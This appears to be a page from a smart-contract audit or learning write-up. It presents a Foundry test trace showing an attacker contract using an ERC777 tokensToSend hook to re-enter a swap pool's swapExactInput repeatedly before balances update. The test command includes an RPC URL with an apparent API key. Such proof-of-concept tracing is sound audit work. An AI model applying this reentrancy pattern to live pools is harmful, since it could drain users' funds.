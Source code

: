 
This was the test I used to prove my earlier explanation. When i ran it with forge test --mt test_ERC777candraincontract -vvvv --fork-url https://eth-sepolia.g.alchemy.com/v2/qI-Bew-erINXNRwv-o7Gdnr5ZFqbSyHv, this was a snippet from the logs and I will use this to explain how it all works. See below:

```javascript
 ├─ [0] VM::startPrank(Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422])
    │   └─ ← [Return]
    ├─ [159194] TSwapPool::swapExactInput(ERC777Token: [0xEaA46ff85feBa2BDA844207b3FC21Ec7837Ff9e9], 20000000000000000000 [2e19], ERC20Mock: [0x2e234DAe75C793f67A35089C9d99245E1C58470b], 16000000000000000000 [1.6e19], 1736106804 [1.736e9])
    │   ├─ [639] ERC777Token::balanceOf(TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E]) [staticcall]
    │   │   └─ ← [Return] 100000000000000000000 [1e20]
    │   ├─ [559] ERC20Mock::balanceOf(TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E]) [staticcall]
    │   │   └─ ← [Return] 100000000000000000000 [1e20]
    │   ├─ emit Swap(swapper: Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], tokenIn: ERC777Token: [0xEaA46ff85feBa2BDA844207b3FC21Ec7837Ff9e9], amountTokenIn: 20000000000000000000 [2e19], tokenOut: ERC20Mock: [0x2e234DAe75C793f67A35089C9d99245E1C58470b], amountTokenOut: 16624979156244789061 [1.662e19])
    │   ├─ [126526] ERC777Token::transferFrom(Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], 20000000000000000000 [2e19])
    │   │   ├─ [2942] 0x1820a4B7618BdE71Dce8cdc73aAB6C95905faD24::getInterfaceImplementer(Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], 0x29ddb589b1fb5fc7cf394961c1adf5f8c6454761adf795e67fe149f658abe895) [staticcall]
    │   │   │   └─ ← [Return] Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422]
    │   │   ├─ [107718] Attacker::tokensToSend(TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], 20000000000000000000 [2e19], 0x, 0x)
    │   │   │   ├─ [0] console::log("Reentrant call number: ", 1) [staticcall]
    │   │   │   │   └─ ← [Stop]
    │   │   │   ├─ [70398] TSwapPool::swapExactInput(ERC777Token: [0xEaA46ff85feBa2BDA844207b3FC21Ec7837Ff9e9], 20000000000000000000 [2e19], ERC20Mock: [0x2e234DAe75C793f67A35089C9d99245E1C58470b], 10000000000000000000 [1e19], 1736106804 [1.736e9])
    │   │   │   │   ├─ [639] ERC777Token::balanceOf(TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E]) [staticcall]
    │   │   │   │   │   └─ ← [Return] 100000000000000000000 [1e20]
    │   │   │   │   ├─ [559] ERC20Mock::balanceOf(TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E]) [staticcall]
    │   │   │   │   │   └─ ← [Return] 100000000000000000000 [1e20]
    │   │   │   │   ├─ emit Swap(swapper: Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], tokenIn: ERC777Token: [0xEaA46ff85feBa2BDA844207b3FC21Ec7837Ff9e9], amountTokenIn: 20000000000000000000 [2e19], tokenOut: ERC20Mock: [0x2e234DAe75C793f67A35089C9d99245E1C58470b], amountTokenOut: 16624979156244789061 [1.662e19])
    │   │   │   │   ├─ [59630] ERC777Token::transferFrom(Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], 20000000000000000000 [2e19])
    │   │   │   │   │   ├─ [942] 0x1820a4B7618BdE71Dce8cdc73aAB6C95905faD24::getInterfaceImplementer(Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], 0x29ddb589b1fb5fc7cf394961c1adf5f8c6454761adf795e67fe149f658abe895) [staticcall]
    │   │   │   │   │   │   └─ ← [Return] Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422]
    │   │   │   │   │   ├─ [45322] Attacker::tokensToSend(TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], Attacker: [0x4df1457D8573567dBEE2479Be13b413dEe2E7422], TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E], 20000000000000000000 [2e19], 0x, 0x)
    │   │   │   │   │   │   ├─ [0] console::log("Reentrant call number: ", 2) [staticcall]
    │   │   │   │   │   │   │   └─ ← [Stop]
    │   │   │   │   │   │   ├─ [41902] TSwapPool::swapExactInput(ERC777Token: [0xEaA46ff85feBa2BDA844207b3FC21Ec7837Ff9e9], 20000000000000000000 [2e19], ERC20Mock: [0x2e234DAe75C793f67A35089C9d99245E1C58470b], 10000000000000000000 [1e19], 1736106804 [1.736e9])
    │   │   │   │   │   │   │   ├─ [639] ERC777Token::balanceOf(TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E]) [staticcall]
    │   │   │   │   │   │   │   │   └─ ← [Return] 100000000000000000000 [1e20]
    │   │   │   │   │   │   │   ├─ [559] ERC20Mock::balanceOf(TSwapPool: [0x9D89111BBa54742d2B54fC3Eb2064E56797cb90E]) [staticcall]
```